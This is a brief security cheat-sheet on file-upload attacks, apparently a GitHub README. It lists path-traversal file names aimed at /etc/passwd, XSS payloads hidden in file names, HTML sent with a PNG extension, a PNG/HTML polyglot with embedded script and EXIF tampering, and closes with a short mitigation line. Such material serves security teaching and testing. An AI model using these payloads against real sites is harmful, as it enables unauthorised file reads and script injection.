 # FILE UPLOAD

## **TYPE 1**

If the server not change and filter the name of the archive

The attacker can inject XSS on the name and make a LFI

**Ex:**

- filename=`../../../../../etc/passwd`
- filename=`"><svg onload=alert(1)>`

## **TYPE 2**

If the website not filter the MIME Types the attacker can send a html file with a PNG extension and make a XSS

**Ex:**

- filetype=`text/html`
- filename=`image.png`
- content=`<script>alert(1)</script>`

## **TYPE 3**

The attacker can upload a PNG files with parts of HTML code and MIME text/html but bypass the file loader with the PNG parts

**Ex:**

- filetype=`text/html`
- filename=`image.png`
- content=`%$PNGugfadr%%w345esfuerg$%csuirgescu**<script>alert(1)</script>**adad54345$%¨#`

## **TYPE 4**

If the server upload images the attacker can change the EXIF data of the image

**Mitigation**

Change the name of the file after upload and check the MIME Types and Extension Type